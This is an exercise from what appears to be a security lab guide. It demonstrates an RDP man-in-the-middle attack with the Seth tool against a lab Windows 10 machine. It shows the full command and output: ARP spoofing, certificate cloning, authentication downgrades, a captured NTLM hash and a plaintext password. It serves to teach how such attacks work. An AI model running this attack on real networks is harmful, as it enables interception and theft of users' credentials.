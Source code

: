 # Exercise: Using Seth in a Man-in-the-Middle Attack

Hack The Box doesn't have any good examples of RDP exploitation and so to illustrate at least one vulnerability, you will demonstrate how easy it is to get a person's password using Seth.

For this demonstration, you have a Windows 10 box that is configured to accept remote desktop connections as the target. You can use your Windows 10 Commando box if you have set that up. The victim is a remote desktop connection client from any other machine on the network, including the computer you are using to run the VMs on. The attacker machine is our ParrotSec VM. The network is shown below.

![Network diagram of RDP man-in-the-middle attack](../.gitbook/assets/sethdiagram.png)

When you run Seth on the attacker machine and then try and connect using the Remote Desktop Client, you get this output:

```bash
┌─[rin@parrot]─[/opt/Seth]
└──╼ $sudo ./seth.sh eth0 10.0.1.7 10.0.1.5 10.0.1.8
███████╗███████╗████████╗██╗ ██╗
██╔════╝██╔════╝╚══██╔══╝██║ ██║ by Adrian Vollmer
███████╗█████╗ ██║ ███████║ seth@vollmer.syss.de
╚════██║██╔══╝ ██║ ██╔══██║ SySS GmbH, 2017
███████║███████╗ ██║ ██║ ██║ https://www.syss.de
╚══════╝╚══════╝ ╚═╝ ╚═╝ ╚═╝
[*] Linux OS detected, using iptables as the netfilter interpreter
[*] Spoofing arp replies...
[*] Turning on IP forwarding...
[*] Set iptables rules for SYN packets...
[*] Waiting for a SYN packet to the original destination...
[+] Got it! Original destination is 10.0.1.27
[*] Clone the x509 certificate of the original destination...
[*] Adjust iptables rules for all packets...
[*] Run RDP proxy...
Listening for new connection
Connection received from 10.0.1.5:61220
Warning: RC4 not available on client, attack might not work
Downgrading authentication options from 11 to 3
Listening for new connection
Enable SSL
Connection received from 10.0.1.5:61232
Warning: RC4 not available on client, attack might not work
Downgrading authentication options from 11 to 3
Listening for new connection
Enable SSL
Failed to extract keyboard layout information
rin:::afb99ab9d701d668:9511818e381cab338594796e923386ef:010100000000000007cbbd3eb4b8d601699b03023078129f0000000002001e004400450053004b50000bf00510001001e004400450053004b3344550004001e004400450053004b0054004f0050002d004900520052004b0044004e00510003001e004400450053004b0054004f0050002d004900520052004b0044004e0051000700080007cbbd3eb4b8d60106000cd00020000000000000000000000
Tamper with NTLM response
Downgrading CredSSP
Connection received from 10.0.1.5:61233
Warning: RC4 not available on client, attack might not work
Listening for new connection
Server enforces NLA; switching to 'fake server' mode
Enable SSL
Connection lost on enableSSL: [Errno 104] Connection reset by peer
Hiding forged protocol request from client
.\rin:S3cr3tP@55w0rd
[*]
```

In this scenario, Network Level Authentication had been configured and so Seth was not able to complete the attack and the connection fails with an error. However, the plaintext username and password are still obtained by the attacker. If the NLA requirement option is switched off, the connection completes, and the user would not be any the wiser.

